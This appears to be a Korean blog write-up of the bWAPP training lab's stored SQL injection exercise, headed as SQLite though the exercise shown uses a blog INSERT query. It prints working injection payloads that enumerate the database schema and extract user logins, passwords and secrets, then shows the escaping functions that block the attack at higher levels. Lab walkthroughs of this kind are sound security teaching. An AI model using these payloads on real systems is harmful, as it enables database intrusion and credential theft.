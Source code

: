 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (SQLite)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image.png)
- 사용자의 입력값이 DB 에 저장된 후 불러와 다시금 출력하는 듯 하다.

![그림 1-2](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image2.png)
- 사용자의 입력값이 Entry에 입력되는 걸 확인 할 수 있다.
- 이럴 경우 보통 XSS 공격만 테스트 하고 넘어가는 경우가 많다.
- 하지만 DB에 저장된 값을 SQL 구문을 통해 불러오거나 저장하는 경우 SQL Injection도 충분히 일어날 수 있다.

![그림 1-3](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image3.png)
- ‘(싱글쿼터) 입력시 DBMS Error가 발생하는 것을 볼 수 있다.

```sql
$sql = "INSERT INTO blog (date, entry, owner) VALUES (now(),'" . $entry . "','" . $owner . "')";
```

> INSERT 절을 통해 입력 되는 SQL 구문은 위와 같다.

```sql
test',select(select 1))--
```

![그림 1-4](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image4.png)
- select 1 을 사용하여 테스트 해본 결과 1이 정상적으로 출력되고 있다.

```sql
test',(select schema_name from information_schema.schemata limit 1,1))--
```

![그림 1-5](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image5.png)
- Union Based를 사용하여 bWAPP 데이터베이스를 확인했다. 이와 같이 INSERT 절에 중첩SELECT절을 사용하여 공격을 진행할 수 있다.

```sql
test',(select table_name from information_schema.tables where table_schema='bWAPP' limit 3,1))--
```

![그림 1-6](/assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image6.png)
- users 라는 테이블도 확인했다.

```sql
test',(select column_name from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1))--
```

![그림 1-7](assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image7.png)
- 각각의 컬럼명도 획득할 수 있다.

```sql
test',(select concat(login,0x3a,id,0x3a,password,0x3a,secret) from bWAPP.users limit 1,1))--
```

![그림 1-8](assets/image/bwapp/injection/SQLI-Stored-Blog-archive/image8.png)
- 데이터 추출에 성공했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.
